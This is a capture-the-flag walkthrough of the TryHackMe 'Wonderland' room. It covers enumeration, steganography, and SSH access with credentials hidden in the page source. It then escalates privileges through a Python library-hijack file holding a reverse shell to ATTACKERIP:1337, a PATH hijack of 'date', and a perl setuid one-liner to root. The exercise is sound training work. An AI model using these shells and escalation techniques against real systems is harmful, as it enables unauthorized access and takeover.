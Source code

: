 # [Wonderland - Fall down the rabbit hole and enter wonderland.](https://tryhackme.com/r/room/wonderland)

## Enumeration

### Nmap

```
kali@kali:~/CTFs/wonderland$ nmap -sC -sV $TARGETIP    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 13:03 EDT
Nmap scan report for TARGETIP
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```

### Exploring the webpage

![webpage](images/webpage.png)

There is barely something to discover. By looking at the source-code, we can identify the directory of the image, */img*. Visiting */img* reveals two more images, 'alice_door.png' and 'alice_door.jpg'.


### Analyzing the image-files

After checking all three images with several tools (`binwalk`, `file`, `strings` and `exiftools`), they do not seem to have any hidden embedded data. Steganography-wise, the image directly used on the landing page, 'white_rabbit_1.jpg', has a hidden message though. We can extract it by using `steghide` and an empty password.

```
kali@kali:~/CTFs/wonderland/website_resources$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
                                                                                                                                       
kali@kali:~/CTFs/wonderland/website_resources$ ls
alice_door.jpg  alice_door.png  hint.txt  white_rabbit_1.jpg
                                                                                                                                       
kali@kali:~/CTFs/wonderland/website_resources$ cat hint.txt        
follow the r a b b i t
```

### Gobuster directory enumeration
```
kali@kali:~/CTFs/wonderland$ gobuster dir -u $TARGETIP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://TARGETIP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/r                    (Status: 301) [Size: 0] [--> r/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

`gobuster` discovered the directory */r*. Following the hint, we should check if there is something at *TARGETIP/r/a/b/b/i/t*. Inspecting the source-code uncovers a "hidden" html-block, `<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`. We can use these credentials to establish an SSH-connection as user **alice**.

## User-flag

Alice's home-directory includes the root.txt. Assuming the flags are at reversed places, the user-flag would be within */root*.
```
alice@wonderland:~$ cat /root/user.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXX}
alice@wonderland:~$ 
```

## Root-flag
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ 
```
Alice is able to execute /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py as user **rabbit** via `sudo`.

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
The line was:    "The time has come," the Walrus said,
The line was:    You could not see a cloud, because
The line was:    "O Oysters, come and walk with us!"
The line was:    The Carpenter said nothing but
The line was:    "But not on us!" the Oysters cried,
The line was:    The middle of the night.
The line was:    And yet another four;
The line was:    Conveniently low:
The line was:    "To come and spoil the fun!"
The line was:    
alice@wonderland:~$ 
```

If we can modify or change the content of the python-file, we could create a reverse-shell to get access as user **rabbit**. After some research, it looks like the way to go is to trick the system to include a local file instead of the requested library. In other words, we are going to create a malicious file called **random.py** containing the code for the reverse-shell at the same directory (*/home/alice/*). The code-snippet I used can be found [here](https://medium.com/dont-code-me-on-that/bunch-of-shells-python-b3fb1400b823).

```
alice@wonderland:~$ cat random.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKERIP',1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);

```
Executing will bring us the desired shell.
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
```
kali@kali:~$ nc -lvnp 1337         
listening on [any] 1337 ...
connect to [ATTACKERIP] from (UNKNOWN) [TARGETIP] 45720
$ whoami
rabbit
$ 
```

User **rabbit** has a binary called "teaParty" in his directory.
After analyzing, we find out it calls `date` without providing an absolute path. That means, if we modify the PATH environment variable, we can trick the system to execute a different file with the name 'date'. Furthermore, teaParty seems to call 'setgid()' and 'setuid()', so if we create a custom date-file and put code for a shell into it, we will most likely end up getting it for a different user since these functions get executed before the date-call.

![date](images/teaparty.png)

```
rabbit@wonderland:/tmp$ echo 'bash -i' > date     
echo 'bash -i' > date
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
rabbit@wonderland:/tmp$ chmod 777 date
chmod 777 date
rabbit@wonderland:/tmp$ 
```

```
rabbit@wonderland:/home/rabbit$ ./teaParty
./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```
We are now logged in as **hatter**. Within his home-directory, there is a file called *password.txt* providing his password. We can use it to get a better shell, stability-wise, by establishing an SSH-connection.

```
hatter@wonderland:/home/hatter$ cat password.txt
cat password.txt
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ 
```
### Privilege Escalation
Linpeas gives us the following hint

![linpeas](images/linpeas.png)

 - /usr/bin/perl has setuid capability -> [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# ls /home/alice
random.py  root.txt  walrus_and_the_carpenter.py
# cat /home/alice/root.txt
thm{XXXXXXX, XXXXXXX, XXXXXX XXXX XXX X XXXXXX XXXX XXX'XX XXX}
# 
```


